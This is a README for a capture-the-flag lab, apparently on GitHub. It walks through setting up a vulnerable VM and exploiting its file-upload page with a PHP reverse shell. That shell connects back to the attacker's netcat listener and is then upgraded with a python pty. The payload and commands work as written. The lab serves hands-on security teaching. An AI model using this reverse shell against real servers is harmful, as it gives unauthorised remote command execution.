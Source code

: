# Reverse Shell CTF
<h1>Vulnerable Machine Setup</h1>

<h2>VM</h2>
Create an Ubuntu Server VM (It could work with any debian I just havent tested)

<h3>Setting up the Server</h3>

When logged in as a user with root permissions, clone this repository:

``` 
git clone https://github.com/NarcoMarco/ai4
```

Once the repository is finished cloning, Use the following commands to build the CTF challenge.

```
cd ai4
sudo chmod u+x setup.sh
sudo ./setup.sh
```

<h1>Setting up the Attack Box</h1>
<h2>VM</h2>
Create a Debian VM. This could be ubuntu, linux mint, kali linux, etc.
<br>
You could also use another Ubuntu Server VM, and choose to do things that require a web browser from the host machine.
<br>
<br>
Run the following commands in the VM.

```
sudo apt install netcat -y
```

<h1>Completing the CTF Challenge</h1>
<h2>Creating the Reverse Shell php File</h2>
Before we create the file, we need to make note of our Attack Box's ip address. In the Attack Box, write the following command.

```
ip a
```

In the output of this command, we need to find the appropriate IP address. The IP address we are looking for in this case will probably start with 10.13.37.xxx.

Next, we must create the file that will be uploaded to the webserver hosted on the target VM. Replace the {unique_identifier} with something that is specific to you. This is so that if multiple people are attempting the challenge simultaneously, it will not stop other people from completing the challenge. This file should be created on whatever system will access a web browser so it can be uploaded to the webserver.

```
nano reverse_shell_{unique_identifier}.php
```

Inside this file, we will add the following, replacing {ip_address} with the ip address that you noted down previously.

```
<?php
$ip = '{ip_address}';
$port = 5555;
$sock = fsockopen($ip, $port);
$proc = proc_open('/bin/sh', array(0 => $sock, 1 => $sock, 2 => $sock), $pipes);
?>
```

<h2>Preparing for the Reverse Shell</h2>
Before we upload the script to the web server, we need to tell our Attack Box to listen for the connection that the script will trigger.

```
nc -nvlp 5555
```
This command will tell your system to listen for incoming Reverse Shell connections on port 5555. This means that when the file upload triggers the Reverse Shell, it will connect to your computer.

<h2>Uploading the File and Starting the Reverse Shell</h2>
To access the file upload webpage, we will use a web browser and navigate to:

```
http://{server_ip_address}/upload.php
```
Replace {server_ip_address} with the IP address of the vulnerable machine. In the case that you are doing this challenge in the Tech Lab, the ip_address you will use is:

```
10.13.37.xxx (CHANGE THE IP LATER MARCO)
```

On this website, press the upload button, and select the previously created reverse_shell_{unique_identifier}.php file. Click the button at the end to commit the file to be uploaded.
<br>
<br>
After the file has been uploaded, we need to navigate to the uploaded file using our web browser to trigger the script. To do this, navigate to this web address:

```
http://{server_ip_address}/uploads/reverse_shell_{unique_identifier}.php
```
Again, replace the {server_ip_address} with the IP address of the vulnerable machine, and the {unique_identifier} with the one you chose earlier.

<h2>Using the Reverse Shell</h2>
At this point, you should see a line of text on the Attack Box that says that the connection was successful. You can now execute commands on the Vulnerable Machine.
<br>
<br>
You may notice that you do not have any prompt for the terminal. This can be fixed by using python3 to summon bash, the default shell.

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

You will now be able to see that you are in the directory:
```
/var/www/html/uploads
```

There is a folder located in the root (/) directory. In this folder, you will find a number of files. The newest file contains the password to a python file in /var/www/html. 

```
Hint: The ls command has the options -t for time (newest first), and -r for reverse.
```

Once you have the correct password, run the python file in /var/www/html/uploads, and when it prompts you for the password, input the password that you found. If the password is correct, it will give you the flag.